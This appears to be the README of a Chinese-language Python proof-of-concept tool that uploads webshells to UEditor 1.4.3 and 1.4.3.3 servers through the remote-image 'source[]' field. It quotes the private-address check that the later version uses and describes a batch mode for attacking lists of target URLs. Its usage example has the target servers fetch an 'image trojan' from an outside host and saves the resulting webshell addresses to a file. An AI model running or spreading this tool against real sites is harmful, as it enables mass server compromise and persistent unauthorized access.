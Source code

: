 # 1. ueditorUploadPoc说明
基于python3.9版本开发，目前仅支持1.4.3和1.4.3.3版本webshell上传
+ 1.4.3没有私有地址检测，就是source[]字段，
+ 1.4.3.3会对shell address做检查，如果发现是本地环回地址、10开头地址、192.168、169.等地址都不行
+ 支持批量攻击模式，请将目标服务器地址存放在文件中(-t  target_filename指定的文件中，每行一条url)。
  ~~~aspx
    if (IPAddress.IsLoopback(myIPAddress)) return true;
    if (myIPAddress.AddressFamily == System.Net.Sockets.AddressFamily.InterNetwork)
    {
        byte[] ipBytes = myIPAddress.GetAddressBytes();
        // 10.0.0.0/24 
        if (ipBytes[0] == 10)
        {
            return true;
        }
        // 172.16.0.0/16
        else if (ipBytes[0] == 172 && ipBytes[1] == 16)
        {
            return true;
        }
        // 192.168.0.0/16
        else if (ipBytes[0] == 192 && ipBytes[1] == 168)
        {
            return true;
        }
        // 169.254.0.0/16
        else if (ipBytes[0] == 169 && ipBytes[1] == 254)
        {
            return true;
        }
    }
    ~~~

# 2. 使用
~~~shell
python3.9 ueditor143Poc.py -h
usage: python3.9 [-h help[:options]] [[-q quiet[:options]]] [-t target_url] [-s image_shell]
    -h  help              打印帮助信息，不能与-q同时使用
    -q  quiet             不打印任何信息，不能与-h同时使用
    -t  target_url        目标服务器url地址(如果不指定-f file参数，必须指定该参数)
    -f  target_filename   从文件中读取目标服务器地址
    -m  image_shell       指定图片木马的地址(必须指定该参数)
    -o  out_filename      将webshell地址保存到指定的文件中

例如：
python3.9 ueditor143Poc.py -f target.txt -m http://x.x.x.x:xxxx/x.jpg -o shell.txt
~~~

# 3. 注意事项
1. 执行的过程中需要在参数后面跟参数值，不能连续指定两个参数而不给值，如：
~~~python
python3.9 ueditor143Poc.py -f -m http://x.x.x.x:xxxx/x.jpg -o shell.txt  # 会把-m识别成-f的参数值
~~~